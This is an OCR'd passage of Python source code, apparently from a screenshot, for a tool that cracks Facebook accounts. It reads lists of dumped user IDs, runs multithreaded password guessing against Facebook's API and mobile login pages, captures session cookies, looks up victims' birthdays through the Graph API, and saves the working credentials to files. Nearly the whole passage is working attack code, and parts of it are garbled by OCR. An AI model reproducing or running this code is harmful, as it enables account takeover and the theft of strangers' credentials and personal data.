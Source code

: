 'session_key' in response.text and 'EAAA' in response.text: return {"status":"success","email":em,"pass":pas} elif 'www.facebook.com' in response.json()['error_msg']: return {"status":"cp","email":em,"pass":pas} else:return {"status":"error","email":em,"pass":pas} def log_mbasic(em,pas,hosts): ua = open('ugent.txt','r').read() r = requests.Session() r.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8","accept-encoding":"gzip, deflate","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}) p = r.get("https://mbasic.facebook.com/") b = r.post("https://mbasic.facebook.com/login.php", data={"email": em, "pass": pas, "login": "submit"}) raw_cookies = (";").join([ "%s=%s" % (key, value) for key, value in r.cookies.get_dict().items() ]) if "c_user" in r.cookies.get_dict().keys(): return {"status":"success","email":em,"pass":pas,"cookies":raw_cookies} elif "checkpoint" in r.cookies.get_dict().keys(): return {"status":"cp","email":em,"pass":pas,"cookies":raw_cookies} else:return {"status":"error","email":em,"pass":pas} def koki(cookies): samp = cookies.split(';') cooked_cookies = ('%s;%s;%s;%s;%s'%(samp_[2],samp_[4],samp_[0],samp_[3],samp_[1])) return cooked_cookies ### Crack Proccess class crack_dev: def init(self,files): self.Ahmar_jan_Cici = 'My_Love'+oscylopsce+escylipsce+ascylapsci+'Forever' self.ada = [] self.cp = [] self.ko = 0 ahmar_cici('\n%s[%s•%s] %sCrack With Default/Manual Password [d/m]'%(U,P,U,P)) while True: f = cici_ahmar('%s[%s•%s] %sChoose : '%(U,P,U,P)) if f=="": ahmar_cici('%s[%s!%s] %sWrong Input Bro'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) elif f in ['m','M','2','02','002']: try: while True: try: self.apk = files self.fs = ahmar_ahmar(self.apk).read().splitlines() break except: ahmar_cici('%s[%s!%s] %sDump File Not Detected'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) self.fl = [] for i in self.fs: try: self.fl.append({"id":i.split("•")[0]}) except:continue except Exception as e: ahmar_cici('%s[%s!%s] %sDump File not Detected'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) ahmar_cici('%s[%s•%s] %sExample : Pakistan,786786,223344'%(U,P,U,P)) self.pwlist() break elif f in ['d','D','1','01','001']: try: while True: try: self.apk = files self.fs = ahmar_ahmar(self.apk).read().splitlines() break except: continue self.fl = [] for i in self.fs: try: self.fl.append({"id":i.split("•")[0],"pw":pass_list(i.split("•")[1])}) except:continue start_method() put = cici_ahmar('%s[%s•%s] %sChoose : '%(U,P,U,P)) ahmar_cici(''%()) if put in ['']: ahmar_cici('%s[%s!%s] %sWrong input Bro'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) elif put in ['1','01','001','a']: started() ThreadPool(35).map(self.api,self.fl) os.remove(self.apk) cici_cici() elif put in ['2','02','002','b']: started() ThreadPool(35).map(self.mbasic,self.fl) os.remove(self.apk) cici_cici() else: ahmar_cici('%s[%s!%s] %sWrong input Bro'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) except Exception as e: continue def pwlist(self): self.pw = cici_ahmar('%s[%s•%s] %s Enter Password : '%(U,P,U,P)).split(",") if len(self.pw) ==0: ahmar_cici('%s[%s!%s] %sWrong input BRO'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) else: for i in self.fl: i.update({"pw":self.pw}) start_method() put = _cici_ahmar _('%s[%s•%s] %sChoose : '%(U,P,U,P)) ahmar_cici(''%()) if put in ['']: ahmar_cici('%s[%s!%s] %sWrong input BRO'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) elif put in ['1','01','001','a']: started() ThreadPool(30).map(self.api,self.fl) os.remove(self.apk) cici_cici() elif put in ['2','02','002','b']: started() ThreadPool(30).map(self.mbasic,self.fl) os.remove(self.apk) cici_cici() else: ahmar_cici('%s[%s!%s] %sWrong Input'%(M,P,M,P)) time.sleep(2) menu_dev(self.Ahmar_jan_Cici) def api(self,fl): try: for i in fl.get("pw"): log = log_api(fl.get("id"),i,"https://b-api.facebook.com") if log.get("status")=="cp": try: ke = req_get("https://graph.facebook.com/" + fl.get("id") + "?access_token=" + ahmar_ahmar("token.txt","r").read()) tt = json.loads(ke.text) ttl = tt["birthday"] m,d,y = ttl.split("/") m = bulan_ttl[m] ahmar_cici("\r%s[%sAHMAR-CP%s] %s • %s • %s %s %s "%(U,P,U,fl.get("id"),i,d,m,y)) self.cp.append("%s•%s•%s%s%s"%(fl.get("id"),i,d,m,y)) ahmar_ahmar("CP/%s.txt"%(tanggal),"a+").write("%s•%s•%s%s%s\n"%(fl.get("id"),i,d,m,y)) break except(KeyError, IOError): m = " " d = " " y = " " except:pass ahmar_cici("\r%s[%sAHMAR-CP%s] %s • %s "%(U,P,U,fl.get("id"),i)) self.cp.append("%s•%s"%(fl.get("id"),i)) ahmar_ahmar("CP/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i)) break elif log.get("status")=="success": ahmar_cici("\r%s[%sAHMAR-OK%s] %s • %s "%(H,P,H,fl.get("id"),i)) self.ada.append("%s•%s"%(fl.get("id"),i)) ahmar_ahmar("OK/%s.txt"%(tanggal),"a+").write("%s•%s\n"%(fl.get("id"),i)) break else:continue self.ko+=1 ahmar_cici("\r%s[%sCrack%s][%s%s/%s%s][%sOK:%s%s][%sCP:%s%s]%s"%(U,P,U,P,self.ko,len(self.fl),U,P,len(self.ada),U,P,len(self.cp),U,P), end=' ');sys.stdout.flush() except: self.api(fl) def mbasic(self,fl): try: for i in fl.get("pw"): log = log_mbasic(fl.get("id"),i,"https://mbasic.facebook.com") if log.get("status")=="cp": try: ke = req_get("https://graph.facebook.com/" + fl.get("id") + "?access_token=" + ahmar_ahmar("token.txt","r").read()) tt = json.loads(ke.text) ttl = tt["birthday"] m,d,y = ttl.split("/") m = bulan_ttl[m] ahmar_cici("\r%s[%sXSAN-CP%s] %s • %s • %s %s %s "%(U,P,U,fl.get("id"),i,d,m,y)) self.cp.append("%s•%s•%s%s%s"%(fl.get("id"),i,d,m,y)) ahmar_ahmar("CP/%s.txt"%(tanggal),"a+").write("%s•%s•%s%s%s\n"%(fl.get("id"),i,d,m,y)) break except(KeyError, IOError): m = " " d = " " y = " " except:pass ahmar_cici("\r%s[%sXSAN-CP%s] %s • %s "%(U,P,U,fl.get("id"),i)) self.cp.append("%s•%s"%(fl.get("id"),i))